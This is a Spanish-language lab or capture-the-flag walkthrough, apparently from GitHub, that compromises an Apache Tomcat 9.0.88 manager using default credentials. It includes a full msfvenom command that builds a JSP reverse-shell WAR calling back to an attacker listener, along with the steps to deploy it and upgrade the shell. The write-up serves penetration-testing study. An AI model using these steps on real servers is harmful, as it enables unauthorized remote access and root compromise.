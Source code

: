 
![image](https://github.com/user-attachments/assets/d0eee424-55c4-47af-8a46-cb9500efbb77)

nmap: 8080

---
en la pagina: 172.17.0.2:8080 hay una  versión del de tomcat: # Apache Tomcat/9.0.88
como exploit a esa versión no encontré mucho, en la pagina hay un "manager apps"

![image](https://github.com/user-attachments/assets/8489fc06-5080-43b6-803b-d0aaef574de0)


en: https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/tomcat
buscamos las credenciales por default para poder entrar al "manager app"
intentamos con las credenciales

![image](https://github.com/user-attachments/assets/6f3bfbf0-bb14-48c1-bb7a-71101acce2f4)

> las credenciales: tomcat/s3cr3t

entramos al "magaer app" con esas credenciales

encontramos la parte de WAR file to deploy, donde se suben archivos .war

![image](https://github.com/user-attachments/assets/38e15592-832a-4c5f-996e-0bcdcf2e1a19)

para poder tener una conexión RCE utilizamos: msfvenom -p java/jsp_shell_reverse_tcp LHOST=172.17.0.1 LPORT=443 -f war -o revshell.war

lo lanzamos y nos crea un:   revshell.war
![[generado.png]]

lo subimos en archivos "WAR" y luego lo cargamos

al subirlo aparece aquí: llamado /revshell
![[subido.png]]

>colocamos el terminal en escucha y presionamos el archivo y estamos dentro ya como root!
![[root.png]]

hacemos un "stty"

       - script /dev/null -c bash
       - stty raw -echo; fg
       - reset xterm
       - export SHELL=bash && export TERM=xterm
       - stty rows numero colums numero 

y quedara así:
![[root sup.png]]
